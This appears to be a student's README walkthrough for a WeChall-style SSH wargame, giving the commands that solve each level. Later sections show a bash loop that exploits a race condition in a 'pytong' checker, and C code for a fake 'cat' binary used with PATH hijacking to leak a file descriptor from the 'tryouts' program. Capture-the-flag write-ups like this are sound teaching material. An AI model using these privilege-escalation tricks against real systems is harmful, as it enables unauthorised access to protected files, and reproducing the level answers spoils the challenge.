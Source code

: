 # WECHALL STD23042 :seedling:

Pour commencer le challenge, il faut se connecter sur votre compte ssh: sssh -p 19198 user@warchaal.net
Nous allons utiliser ces commande:

- **cd**: changer la direction

- **ls -a**: affichier le contenu

- **cat**: pour lire un fichier 

- **chmod +r**: pour avoir la permiission de lire

## Level 0
```bash
cd /home/level
ls -a
cd 00-welcom
ls -a
cat README.md
```

## Level 1
```bash
cd /home/level
ls -a
cd -choise tree
ls -a
cd blue
cd hats
cd grey
cat solution.txt
```

## Level 2
```bash
cd /home/level
ls -a
cd 02
ls -a
cd .prob
ls -a
cat solution
```

## Level 3
```bash
cd /home/level
ls -a
cd 03
ls -a
cat .bash_history
```


## Level 4
```bash
cd /home/user/username/level
ls -a
cd 04-kwisat
ls -a
chmod +r README.md
cat README.md
```

## Level 5
```bash
cd /home/level
ls -a
cd 05-privacy
ls -a
cat README.md
```
## Pytong

- **step1**: Create a file in our directory (ex: `uwu.txt`)

- **step2**: Create a scripts or code which can change to content of `uwu.txt` every X time

- I do it just with bash

```bash
#!/bin/bash

end_time=$((SECONDS+15))

while [ $SECONDS -lt $end_time ]; do
    echo "d" >> uwu.txt
    sleep 0.0005
done
```

The scritps just add the letter `d` in the `uwu.txt` every `0.0005`( you can adjust it's values)
The end_time is optional

- **step3**: Connect to wechall with another terminal and go to the pytong folder ( `/home/level/12_pytong`) 

- **step4**: Go back to the other terminal and run your scripts (which add `d` in `uwu.txt` here) 

- **step5**: Now go back to your pytong terminal and run the following command (just make sure to do this before the end_time of your scripts is achieved) 

```bash
./pytong ~/uwu.txt
```
That's it

## Tryouts

How ? : Quite easy, tryouts use `cat` command which the path is not specify, so we need just to create a fake cat command

- **step1**: Here is an example of cat command ( put it in your home directory for example)

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char *argv[]) {
    FILE *fp = fopen(argv[1], "w");
    char buf[16];
    memset(buf, 0, sizeof buf);
    lseek(3, 0, SEEK_SET);
    read(3, buf, sizeof buf);
    fprintf(fp, "%s", buf);
    return 0;
}

```

- **step2**: Create a file in your home directory called `seed` ('cause it's required by tryouts)

- **step3**: Add your home directory to PATH
```bash
export PATH=$HOME:$PATH
```

- **step4**: run the tryouts executable in it's folder

- **step5**: That's it, open new terminal and just use `cat` to read the file seed, and the solution will apear 


